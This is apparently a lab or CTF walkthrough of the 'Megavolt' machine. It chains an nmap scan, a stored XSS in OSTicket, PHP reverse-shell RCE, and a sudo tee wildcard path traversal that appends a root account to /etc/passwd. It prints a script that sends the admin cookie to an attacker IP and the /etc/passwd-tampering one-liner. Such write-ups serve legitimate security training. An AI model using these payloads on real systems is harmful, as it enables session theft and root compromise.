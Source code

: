 # Megavolt

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.115
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:29 +08
Nmap scan report for 192.168.183.115
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
22/tcp open   ssh
80/tcp open   http
```

We can start proxying traffic through Burp.&#x20;

### OSTicket --> XSS Admin Cookie

Port 80 hosted an OSTicket instance, which has a lot of vulnerabilities and exploits:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

I  registered a new user and opened a ticket. When I viewed the status, it seems that an 'Alfred Smith' closes the tickets:

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

This confirms that a user is indeed viewing the tickets, and we can try to use an XSS exploit for it. The file upload function is vulnerable to an XSS exploit:

{% embed url="https://www.exploit-db.com/exploits/47224" %}

We can upload this HTML file to steal the administrator's cookie:

{% code overflow="wrap" %}
```markup
<script>new Image().src='http://192.168.45.208/?cookie=' + encodeURI(document.cookie);</script>
```
{% endcode %}

As soon as we upload the file and submit a new ticket, we get this on a listener port:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Using this cookie, we can then login to OSTicket at `/scp` by changing our cookie within Burp:

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

### OSTicket RCE

Within the settings of the Admin Panel, we can find the version of OSTicket running:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit. To exploit it, we first need to enable the plugin that stores attachments within the file system of the machine:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Afterwards, in the settings, make sure to change the Attachment settings:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Then, we need to open a new ticket and upload a PHP reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

View the ticket from the Administrator account:

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

If we click on the attachment, it would generate a GET request to the `file.php` file with a key:

<figure><img src="../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

This is the URL key, and we need one more key which is the File key. This can be generated by doing the following:

```
$ php -a 
Interactive shell

php > $sha1 = base64_encode(sha1_file('shell.php', true));
php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));
Y2_qPxdA2XMAeDyyloBdYykx9uE
```

Then, we can finally use this repository's script to trigger the shell:

{% embed url="https://github.com/Und3r-r00t/osticket-shell" %}

The exploit took me quite a few times before it worked. If it doesn't work, upload your shell with a different name. In my case, `shell.php` worked.&#x20;

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

The script would brute force every possible directory that the PHP shell is in before executing it:

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Tee + Wildcard --> Root

We can check our `sudo` privileges on the machine:

```
bash-4.2$ sudo -l 
Matching Defaults entries for apache on megavolt:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User apache may run the following commands on megavolt:
    (ALL) NOPASSWD: /usr/bin/tee /var/log/httpd/*
```

Because there's a wildcard there, we can basically run `tee` to write to any file we want. First, generate a new password hash:

```
$ openssl passwd -1 hello123
$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.
```

Then, write this to the `/etc/passwd` file using this one-liner:

{% code overflow="wrap" %}
```bash
(cat /etc/passwd && echo 'innocent:$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.:0::/root:/bin/sh') | sudo tee /var/log/httpd/../../../../../../etc/passwd
```
{% endcode %}

This would add our new entry into the `/etc/passwd` file and we can `su` to become `root`:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Rooted!
